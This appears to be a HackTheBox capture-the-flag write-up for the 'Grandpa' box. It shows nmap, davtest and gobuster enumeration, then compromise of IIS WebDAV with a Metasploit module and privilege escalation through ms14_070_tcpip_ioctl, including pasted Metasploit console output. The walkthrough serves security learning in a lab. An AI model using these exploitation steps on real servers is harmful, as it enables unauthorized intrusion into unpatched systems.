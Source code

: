 ```yaml
---
layout: page
title: HackTheBox Grandpa Writeup
---
```


This HackTheBox machine is related to a previous HackTheBox machine: Granny. By achieving root on this box, I learned about exploiting a related CVE that was widely used when released.

### Enumeration 

Starting off with a basic enumeration scan: ```nmap -sC -sV -oA granny 10.10.10.14```. Here's the result:

![image](https://user-images.githubusercontent.com/41026969/71902626-76d3ba80-3130-11ea-853b-801a67433d8a.png)

We see that port ```80``` is open that's hosting an IIS webserver. Doing a previous challenge [Granny](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Granny) I learned about WebDAV and this box also seems to have some WebDAV funcitonality. I do a similar ```davtest``` scan. Here's the result:

![image](https://user-images.githubusercontent.com/41026969/71902458-1fcde580-3130-11ea-866f-baef0c1043b2.png)

Meanwhile, in the background, I run a ```gobuster``` script to see if there's any additional directories. The command I did was ```gobuster dir -u http://10.10.10.14 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```. And this is what it found:

```
/images (Status: 301)
/Images (Status: 301)
/IMAGES (Status: 301)
/_private (Status: 403)
```

```Status: 403``` means we don't have access to that directory, ```Status: 301``` is a URL redirection, but we can access it.

So basically from our findings, we see the only open port is ```80``` with WebDAV. But with this WebDAV (unlike HackTheBox grandma), we cannot upload files so we can't upload an ```.asp``` file to execute and get a reverse shell. 

I decided to do some googling:

![image](https://user-images.githubusercontent.com/41026969/71909350-dd130a00-313d-11ea-9dde-2abd2d26ab4f.png)

[The first link](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl) by Rapid7 shows the module ```exploit/windows/iis/iis_webdav_scstoragepathfromurl```. 

### Exploitation

Using the module, configuring the settings, then later executing the exploit, we get a meterpreter shell.

![image](https://user-images.githubusercontent.com/41026969/71910480-fc129b80-313f-11ea-879e-02efc25368e2.png)

In meterpreter, I do ```shell``` to get a native windows shell. Doing a ```whoami``` check outputs ```nt authority\network service```. This isn't the administrator account.

Next, something I learned by doing this HackTheBox challenge is to migrate processes to a different process that you own or a process that's the same architecture as your exploit/payload. So for this challenge, I migrate to a process that I own (as ```nt authority\network service```. 

*NOTE: When doing this challenge, the meterpreter session kept closing randomly. I think it's due to the process that I migrated to so I suggest trying a different process if possible.

![image](https://user-images.githubusercontent.com/41026969/71935472-da7fd700-3174-11ea-9c30-ffc5595828b3.png)

### Privesc

First step I do is to use a metasploit module that will collect a list of known exploits based on the system information you have on the machine and then suggests you a list of exploits that may work. 

```
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/multi/recon/local_exploit_suggester 
msf5 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 29 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf5 post(multi/recon/local_exploit_suggester) > sessions
```

Trying the first exploit listed (```exploit/windows/local/ms10_015_kitrap0d```) that "appears to be vulnerable" by ended up crashing the box so that didn't work.

Trying the second exploit (```exploit/windows/local/ms14_070_tcpip_ioctl```) that "appears to be vulnerable" by ended up getting me a shell:

![image](https://user-images.githubusercontent.com/41026969/71937572-c4751500-317a-11ea-8da6-ff37d0e6ae50.png)

### Getting Root/User flags

Eventually I wander into this directory that contains an ```Administrator``` directory and a ```Harry``` directory that looks to be a user on the box.

![image](https://user-images.githubusercontent.com/41026969/71938216-b7f1bc00-317c-11ea-9642-ff898efbab9f.png)

Checking the ```Desktop``` inside each of those reveals the Root flag and the User flag

### Flags

Root: ```C:\Documents and Settings\Administrator\Desktop\root.txt```

User: ```C:\Documents and Settings\Harry\Desktop\user.txt```

### Sources
- [Rapid7 module for initial shell](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl)
- [HackTheBox Granny Writeup (also deals with IIS/WebDAV](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Granny)
